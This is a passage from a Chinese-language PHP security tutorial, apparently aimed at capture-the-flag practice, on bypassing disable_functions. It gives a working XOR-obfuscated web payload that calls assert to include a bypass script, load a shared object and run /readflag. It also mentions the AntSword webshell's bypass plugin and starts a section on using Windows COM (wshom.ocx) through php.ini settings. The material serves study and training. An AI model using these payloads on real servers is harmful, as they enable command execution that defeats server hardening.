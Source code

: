 然后将bypass_disablefunc.php包含进来并使用GET方法提供所需的三个参数：

```php
?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=include(%27/var/tmp/bypass_disablefunc.php%27)&cmd=/readflag&outpath=/tmp/tmpfile&sopath=/var/tmp/bypass_disablefunc_x64.so
```

![image-20231022204821930](assets/image-20231022204821930.png)

(当然，蚁剑已经集成了bypass插件，直接用即可:点击插件使用，之后搞一个蚁剑建立的shell的副本，将链接地址改成 .antproxy.php,密码不变（也可能是ant），即可)

# 0x04 利用Windows系统组件COM绕过

Windows系统组件COM在Windows默认就存在，是位于System32目录下的wshom.ocx文件。

## 适用条件



## 环境配置

先在php.ini中查看是否已经开启com.allow_dcom，若未开启则将前面的;分号去掉：

```php
; allow Distributed-COM calls
; http://php.net/com.allow-dcom
com.allow_dcom = true
```

然后在php/ext/里面查找是否存在php_com_dotnet.dll这个文件。

再到php.ini中查看是否存在extension=php_com_dotnet.dll这项，有的话去掉注释开启，否则直接添加上去即可。

重启服务，在phpinfo中查看是否开启了：

![image-20231022205110086](assets/image-20231022205110086.png)
